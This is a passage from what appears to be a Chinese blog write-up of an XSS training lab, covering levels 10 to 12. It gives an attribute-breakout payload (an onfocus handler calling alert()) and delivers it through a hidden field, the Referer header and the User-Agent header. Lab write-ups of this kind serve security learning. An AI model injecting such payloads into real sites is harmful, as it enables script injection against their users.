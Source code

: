 看看源代码



<img src="https://i-blog.csdnimg.cn/blog_migrate/086d763d43e9ff3e6b82cbbd179f73fc.png" alt="" style="max-height:265px; box-sizing:content-box;" />


发现需要另一个来传递

我们这里并且过滤了 <>

但是其实还是很简单的

```haskell
" onfocus=javascript:alert() " type=text
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/e832a127d3d08b44ee456856d2f5d4a2.png" alt="" style="max-height:612px; box-sizing:content-box;" />


## Level11  【Referer注入】

我们再来看看源代码



<img src="https://i-blog.csdnimg.cn/blog_migrate/68ccc7ee9bab3706f159577faf46873b.png" alt="" style="max-height:350px; box-sizing:content-box;" />


通过referer

为什么无法通过 t_sort

因为 htmlspecialchars 无法闭合 " 会被实体化

所以我们通过 referer来进行 xss

referer 的内容 就和 上面一样

```haskell
" onfocus=javascript:alert() " type=text
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/6b8cdeea1b30b387e7c44a7a9927ca6a.png" alt="" style="max-height:274px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/0f91ffcf6aa08373e2a81e56916ba3c8.png" alt="" style="max-height:601px; box-sizing:content-box;" />


## Level12 【UA注入】

```haskell
" onfocus=javascript:alert() " type=text
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/3feee2c6fe9904e5eeb1af684756fc26.png" alt="" style="max-height:320px; box-sizing:content-box;" />
